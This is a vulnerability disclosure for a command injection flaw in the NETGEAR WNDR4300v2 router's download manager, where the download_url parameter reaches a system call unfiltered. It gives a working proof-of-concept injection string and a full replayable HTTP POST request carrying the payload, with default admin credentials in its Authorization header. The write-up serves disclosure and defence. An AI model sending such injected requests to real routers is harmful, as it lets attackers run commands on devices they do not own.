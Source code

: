 Hi, I'm eack from Codesafe team of Legendsec at Qi'anxin Group .

Recently, I discovered that there is a command injection vulnerability in netgear's WNDR4300v2 router. The firmware version tested was v1.0.0.58. The details of the vulnerability are as follows:


Vulnerability location:

In the NETGEAR Downloader (BETA) management interface, when using the http/ftp download method, the command is injected because the download_url parameter is not filtered.
![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563845628838.png)

The location of the vulnerability in the code:
![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563783680056.png)

Introduced by formatting a string:
![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563783785816.png)

Finally, execute the command through system:
![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563783822607.png)


Poc:

`http://192.168.195.132:8000/1.txt';ping 192.168.1.8;echo'`


The same, plug in the USB on the router, then turn on the wireshark to monitor the WLAN traffic.

Click Add, then you can see the icmp traffic in wireshark, that is, execute the ping command:
![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563783126807.png)
In the above, I did not use BurpSuite. If I want to use it, the replay package is as follows:
![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563845701854.png)

HTTP Request:
```HTTP:
POST /apply.cgi?/GREEN_http_basic.htm%20timestamp=380767450332 HTTP/1.1
Host: 192.168.1.1
Content-Length: 476
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.1.1/GREEN_http_basic.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOiI4MDQ5IiwiaXNzIjoid3d3Lm5ldGdlYXIuY29tIiwic3ViIjoiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQw==.2b74af449894c35b2336767a3ed19d0f9f2a177a79bddafa290b85d62b379f33
Connection: close

submit_flag=add_download_item&download_type=http&green_download_open_flag=&enable_green_download=on&download_type_1=http&download_url=http%3A%2F%2F192.168.195.132%3A8000%2F1.txt%5C%27%3Bping+192.168.1.8%3Becho%27&user_name=&password=&user_name_hid=&password_hid=&decodeurl=http%3A%2F%2F192.168.195.132%3A8000%2F1.txt%5C%27%3Bping+192.168.1.8%3Becho%27&Add=%E6%B7%BB%E5%8A%A0&priority_sel=4&priority_sel=4&priority_sel=4&select_ids=&select_ids_queuen=&priority_val=&file_type=2
```

